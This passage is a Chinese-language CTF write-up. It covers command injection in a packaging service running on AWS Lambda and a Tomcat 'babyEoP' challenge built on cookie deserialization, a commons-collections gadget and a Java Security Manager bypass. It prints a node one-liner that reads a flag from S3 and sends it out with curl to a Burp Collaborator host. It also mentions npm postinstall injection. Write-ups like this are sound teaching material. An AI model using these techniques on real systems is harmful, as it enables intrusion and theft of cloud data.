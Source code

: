 ![Untitled-104e2b2e-f287-4fe4-9424-0c0bc404067c.png](https://cdn.nlark.com/yuque/0/2019/png/298354/1561975678923-c665a7bd-ed46-413c-a711-f213df69a14e.png#align=left&display=inline&height=1280&name=Untitled-104e2b2e-f287-4fe4-9424-0c0bc404067c.png&originHeight=1280&originWidth=2492&size=365153&status=done&width=2492)

![Untitled-27aaeea7-f08b-44ca-bc92-2989496d4a62.png](https://cdn.nlark.com/yuque/0/2019/png/298354/1561975690494-382ad8f6-0abe-49d9-a8bd-f2e082a5c410.png#align=left&display=inline&height=340&name=Untitled-27aaeea7-f08b-44ca-bc92-2989496d4a62.png&originHeight=340&originWidth=1579&size=44482&status=done&width=1579)

<a name="967e360c"></a>
#### 第二步：

打包功能存在 `命令注入`，注入点为我们可控的库名。（扩展：如果可以，应该可以使用自己的 npm 包，在 `package.json` 的 `script` 字段 `postinstall` 注入语句，[一血师傅](https://www.zhaoj.in/read-5985.html)使用的此种方法。题目来源的实际环境是不存在直接命令注入，但存在此种攻击方式。）

读取环境变量值：

在环境变量中发现是 `AWS Lambda`，从中读取主文件地址 `LAMBDA_TASK_ROOT:/var/task`，入口文件`index.handler` 即 `index.js`，所以入口文件地址为 `/var/task/index.js`

读取文件：

可以看到在上传 `AWS S3` 服务的配置，省去了 `accessKeyId,secretAccessKey`，判断 lambda 执行角色至少具有 `S3` 上传服务权限。

两种方法：

第一种是读取到环境变量配置，将下面三个变量配置到本地环境变量中：

![Untitled-74030f7c-2142-4713-9265-c98f0af4a62c.png](https://cdn.nlark.com/yuque/0/2019/png/298354/1561975731029-8f134c42-8359-4398-8baf-277d92f65cda.png#align=left&display=inline&height=702&name=Untitled-74030f7c-2142-4713-9265-c98f0af4a62c.png&originHeight=702&originWidth=1732&size=162920&status=done&width=1732)

然后直接使用 `awscli` 来本地执行 `aws s3 ls` 等操作读取 flag。

第二种是使用 `Lambda` 本身的环境来执行相应的代码来读取 flag （ `Lambda` 环境本身没有 `awscli`）

```
node -e "var AWS = require('aws-sdk');var s3 = new AWS.S3();var params = {Bucket: 'sctf',Key:'flaaaaaaaaag/flaaaag.txt'};s3.getObject(params, function(err, data) {require('child_process').execSync('curl https://m5s3e9c35n2r5idoco10l5urnit9hy.burpcollaborator.net/sctf?'+escape(data.Body.toString()))});"
```

<a name="babyEoP"></a>
### babyEoP

> 出题人：Jaylin
> 解题人数：0
> 最终分数：1000


题目给了一个webshell，弱密码直接进去。

Tomcat启用了_Java Security Manager_，webshell基本所有功能无法正常使用，但是可以查看有限的几个目录文件，无写权限。

如果顺利，应该可以收集到以下信息：

1. cookie处存在反序列化的点，有反序列化漏洞。
1. 查看lib目录，存在 commons-collections 3.1 gadget。
1. 找到 `catalina.policy` 文件，是Tomcat默认的安全策略配置文件，这应该是本题可能有点脑洞的地方，因为没有给 `C:/babyEoP/apache-tomcat-8.5.42` 的读权限，所以无法列目录，但是 `conf` 目录是可读的。（有将近10位选手读到了这个文件hhhh。）
<br />我在官方提供的 `catalina.policy` 的基础上，做了一些修改。给了 _LoadLibrary_ 、 _createClassLoader_、 _accessDeclaredMembers_ 几个重要权限。

分析 policy ，应该很容易可以想到，要通过 JNI 绕过 _Java Security Manager_。但是 JNI 需要加载一个 dll 动态链接库，由于并没有给任何写权限，所以是不可能上传 dll 的。
